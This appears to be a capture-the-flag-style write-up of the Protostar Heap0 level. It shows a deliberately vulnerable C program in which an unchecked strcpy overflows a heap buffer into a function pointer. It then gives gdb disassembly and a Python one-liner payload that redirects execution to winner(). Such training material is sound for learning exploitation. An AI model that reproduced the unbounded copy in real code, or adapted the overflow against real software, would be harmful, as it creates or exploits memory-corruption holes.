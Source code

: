 #### Protostar Heap0 

##### About
This level introduces heap overflows and how they can influence code flow.  
  
This level is at /opt/protostar/bin/heap0

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();
}
```

##### Solution
```
$ objdump -t heap0 | grep winner
08048464 g     F .test  00000014              winner
08048478 g     F .test  00000014              nowinner

$ gdb heap0
......
(gdb )disas main
Dump of assembler code for function main:
0x0804848c <+0>:    push   %ebp
0x0804848d <+1>:    mov    %esp,%ebp
0x0804848f <+3>:    and    $0xfffffff0,%esp
0x08048492 <+6>:    sub    $0x20,%esp
0x08048495 <+9>:    movl   $0x40,(%esp)
0x0804849c <+16>:   call   0x8048388 <malloc@plt>    ; d = malloc(64)
0x080484a1 <+21>:   mov    %eax,0x18(%esp)           ; store pointer
0x080484a5 <+25>:   movl   $0x4,(%esp)
0x080484ac <+32>:   call   0x8048388 <malloc@plt>    ; f = malloc(4)
0x080484b1 <+37>:   mov    %eax,0x1c(%esp)           ; store pointer
0x080484b5 <+41>:   mov    $0x8048478,%edx
0x080484ba <+46>:   mov    0x1c(%esp),%eax
0x080484be <+50>:   mov    %edx,(%eax)               ; f->fp = nowinner()
......
0x080484e7 <+91>:   mov    0x18(%esp),%eax
0x080484eb <+95>:   mov    %edx,0x4(%esp)
0x080484ef <+99>:   mov    %eax,(%esp)
0x080484f2 <+102>:  call   0x8048368 <strcpy@plt>    ; overflow d
0x080484f7 <+107>:  mov    0x1c(%esp),%eax
0x080484fb <+111>:  mov    (%eax),%eax
0x080484fd <+113>:  call   *%eax                     ; nowinner()
......
(gdb) quit

$ ./heap0 AAAA
data is at 0x804a008, fp is at 0x804a050
level has not been passed

$ ./heap0 `python -c 'print "A"*72+"\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-0>  
<https://www.mattandreko.com/2012/01/10/exploit-exercises-heap-0/>
